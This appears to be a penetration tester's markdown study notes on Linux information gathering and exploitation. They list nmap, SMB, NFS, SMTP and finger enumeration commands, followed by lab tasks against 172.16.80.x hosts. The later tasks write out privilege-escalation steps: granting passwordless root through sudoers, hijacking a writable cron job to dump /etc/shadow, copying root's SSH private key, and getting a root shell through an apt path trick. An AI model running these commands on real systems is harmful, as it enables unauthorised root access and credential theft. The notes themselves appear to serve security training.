






# Linux Exploitation - Infromation gathering

[The Cathedral and the Bazaar](http://www.catb.org/~esr/writings/cathedral-bazaar/cathedral-bazaar/index.html)

## Remote Enumeration

`nmap -O --osscan-guess <IP Address>`  
`nmap -v -sT -O <IP Address>`  
`nmap -v -sS -sU -sV -n <IP Address>`

#### Enumerating NFS

[Network File System](https://en.wikipedia.org/wiki/Network_File_System), [RPC](https://en.wikipedia.org/wiki/Open_Network_Computing_Remote_Procedure_Call)  
`nmap -sT -sU -sV -p2049 <IP Address>`  
`nmap --script nfs-ls,nfs-showmount,nfs-statfs <IP Address>`  
Alternatively, `showmount -e <IP Address>`

After enough information is gathered:  
`mkdir -p /mnt/home/bob`  
`mount -t nfs <NFS Server IP>:/home/bob /mnt/home/bob -o nolock`  
Then we can just cd into directory: `cd /mt/home/bob`

#### Enumerating Portmapper (rbcbind)

[Portmap](https://en.wikipedia.org/wiki/Portmap)  
`nmap --script rpc-grinf,rpcinfo <IP Address> -p 111` or `rpcinfo -p <IP Address>`

#### SMB Shares(Samba)

[Samba](https://en.wikipedia.org/wiki/Samba_(software)) is linux implementation of [SMB/CIFS](https://en.wikipedia.org/wiki/Server_Message_Block).  
`nmap -sT -sU -sV <IP Address> -p135,137,138,139,445 --open`  
`nmap --script smb-enum-shares <IP Address>`  
`smbclient -L <IP Address>`  
`smbmap -H <IP Address>`  
[smbmap](https://github.com/ShawnDEvans/smbmap)

`smbclient \\\\<IP Address>\\www`  
Another method is:  
`mkdir /mnt/www`  
`mount -t cifs \\\\<IP Address>\\www /mnt/www`

#### SMB Users

- Method 1: Bash For Loop  
    [Statistically-Likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)
```bash
for u in $(cat users.txt);
    do rpcclient -U "" <IP Address> -N \
    --command="lookupnames $u";
done | grep "User:1"
```

- Method 2: enum4linux
[enum4linux](https://github.com/CiscoCXSecurity/enum4linux)
`enum4linux <IP Address>`

#### Enumerating SMTP Users
[verbs](https://cr.yp.to/smtp/vrfy.html)
[sendmail](https://www.proofpoint.com/us/products/email-protection/open-source-email-solution)

`nmap --script smtp-commands <IP Address> -p 25`
`nc <IP Address> 25` or `telnet <IP Address> 25`

We are interested in RCPT, VRFY and EXPN verbs.

First, `telnet <IP Address> 25` and then we issue HELO verb.
[smtp-user-enum by pentest monkey](http://pentestmonkey.net/tools/user-enumeration/smtp-user-enum) for autamtic.

***
***
## Local Enumeration

#### Network Information

1. How is the exploited machine connected to the network?
2. Is the machine multi-homed? Can pivot into other hosts in the other segments?
3. Do we have unfettered outbound connectivity to the Internet pr is egress traffic limited to certain ports?
4. Is there a firewall between me and other devices/machines?
5. Is the machine I'm on, communicating with other hosts? If so, what is the purpose or function of the hosts that my current machine is communicating with?
6. What protocols are being used that are orginating from my actively exploited machine? Are we initiating FTP connections or other connections (SSH, etc.) to other machines?
7. Are other machines initiating a connection with me? If so, can that traffic be intercepted or sniffed as cleartext in transit? Is it encrypted?


`ifconfig -a`
`route -n`
`traceroute -n <ip address>`
`cat /etc/resolv.conf` - dns information
`arp -en`
`netstat auntp`
[netstat without netstat](https://staaldraad.github.io/2017/12/20/netstat-without-netstat/)
`ss`
`ss -twurp`
[portquiz.net](http://portquiz.net/)
`nmap -sT -p4444-4450 portquiz.net` - Outbound port connectivity.




#### System Information








[LinEnum](https://github.com/rebootuser/LinEnum)
[Linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
[unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check)
[mimipenguin](https://github.com/huntergregal/mimipenguin)
[Local Linux Enumeration & Privilege Escalation cheat sheet](https://web.archive.org/web/20200218150604/https:/www.rebootuser.com/?p=1623)
[Basic privilege escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[Local UNIX PrivEsc Aggregation](https://github.com/FuzzySecurity/Unix-PrivEsc)

***
***

`nmap -sT <ip address> -p79`
`nmap --script finger <ip address> -p79`
`finger sshd@<ip addresss>`
`for name in $(cat /usr/share/wordlists/metasploit/unix_users.txt); do finger $name@<ip address>; done > valid_users.txt`
`python linuxprivchecker.py > enum`
`sudo /usr/bin/apt edit_sources ../../../../tmp/foo`
Then select vim and type `!sh` we ill be root.
***
***

Task 1: Identify Operating Systems, Ports/Services and Versions
`nmap -sT -O -sV --version-all 172.16.80.1/24`
Task 2: Enumerate Any SMTP Servers for Enabled Methods and users
`nmap --script smtp-commands 172.16.80.27 -p25`
`nc 172.16.80.27 25`
Task 3: Enumerate the Samba Server For Version, Users, Available Shares and Content
`enum4linux -r 172.16.80.22 | grep "Local User"`
`enum4linux -r 172.16.80.27 | grep "Local User"`
`smbmap -H 172.16.80.22`
`smbmap -H 172.16.80.27`
`nmap --script smb-enum-shares 172.16.80.22 -p445`
`smbclient -N \\\\172.16.80.22\\tmp -U ""`
`nmap --script smb-enum-shares 172.16.80.27 -p 445`
`smbclient -N \\\\172.16.80.27\\web -U ""`
`nmap --script smb-os-discovery 172.16.80.22 -p 445`
`nmap --script smb-os-discovery 172.16.80.27 -p445`
Task 4: Identify NFS Shares and Content
`nmap --script nfs-ls 172.16.80.27`
Task 5: Execute a Nmap Vulnerability Script Scan Against Discovered Hosts / Ports
`nmap --script +vuln -p80,1999,8180,35316 172.16.80.22`
`nmap --script +vuln -p4433 172.16.80.24`
`nmap --script +vuln -p2049,445,80,60666 172.16.80.27`
***
***

Task 1: Enumerate for SUID Executables
`find / -perm -4000 2>/dev/null`
`/usr/sbin/vudo`
`/usr/sbin/vudo -f /etc/sudoers`
`lowpriv ALL=(root) NOPASSWD: ALL`
`:wq!`
`sudo bash`
`ls /root/secret`

Task 2: Gather System Information And Get Root
`find /etc/cron* -type f -perm -o+w -exec ls -l {} \;`
`/etc/cron.hourly/oddjob`
`cat /etc/crontab`
`echo -e '\#!/bin/bash\n/bin/cat /etc/shadow > /tmp/shadow' > /etc/cron.hourly/oddjob`
`$ cd /root/.ssh
`cd /root/.ssh && cat /root/.ssh/id_rsa`
`cat /etc/ssh/sshd_config |grep Pub`
`mkdir /home/lowpriv/.ssh`
`cp /root/.ssh/id_rsa /home/lowpriv/.ssh`
`chmod o-rwx /home/lowpriv/.ssh/id_rsa`
`ssh -i /home/lowpriv/.ssh/id_rsa root@localhost`
***
***